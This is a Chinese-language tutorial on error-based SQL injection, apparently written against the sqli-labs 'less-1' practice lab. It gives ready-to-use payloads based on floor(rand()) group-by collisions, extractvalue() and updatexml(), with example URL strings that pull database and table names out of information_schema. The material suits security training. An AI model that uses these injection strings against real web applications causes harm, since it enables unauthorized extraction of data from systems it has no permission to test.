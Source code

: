 ### 报错注入

>   报错注入用在数据库的错误信息会回显在网页中的情况，如果联合查询不能使用，首选报错注入。
>   报错注入利用的是数据库的报错信息得到数据库的内容，这里需要构造语句让数据库报错。
>   推荐三种报错注入的方法，直接套用就行。以less-1为例子

#### 1. group by 重复键冲
   
```
and (select 1 from (select count(*),concat((select 查询的内容 from information_schema.tables limit 0,1),floor(rand()*2))x from information_schema.tables group by x)a) --+
```

提交如下，获取数据库名字

```
?id=1' and (select 1 from (select count(*),concat((select database() from information_schema.tables limit 0,1),floor(rand()*2))x from information_schema.tables group by x)a) --+
```

![](https://xxxiuron-picture.oss-cn-chengdu.aliyuncs.com/20210316093930798.png)

#### 2. extractvalue() 函数

```
?id=1' and extractvalue(1,concat('^',(select database()),'^')) --+
```

提交 ?id=1' and extractvalue(1,concat('^',(select database()),'^')) --+  获取数据库名字

![](https://xxxiuron-picture.oss-cn-chengdu.aliyuncs.com/20210316094306845.png)

#### 3. updatexml() 函数

```
and updatexml(1,concat('^',(需要查询的内容),'^'),1)
```

1. 提交如下，获取数据库名字

```
?id=1' and updatexml(1,concat('^',(database()),'^'),1) --+
```

![](https://xxxiuron-picture.oss-cn-chengdu.aliyuncs.com/2021031609453822.png)

2. 获取当前数据库中表的名字

```
?id=1' and updatexml(1,concat('^',(select table_name from information_schema.tables where table_schema='security' ),'^'),1) --+
```

![](https://xxxiuron-picture.oss-cn-chengdu.aliyuncs.com/20210316094730140.png)

这里是说要显示的内容超过一行它不能显示那么多，所以在 table_schema='security' 后加上 limit 0,1，显示第一行（显示第0行的往下一行，不包括第0行）

![](https://xxxiuron-picture.oss-cn-chengdu.aliyuncs.com/20210316095213384.png)
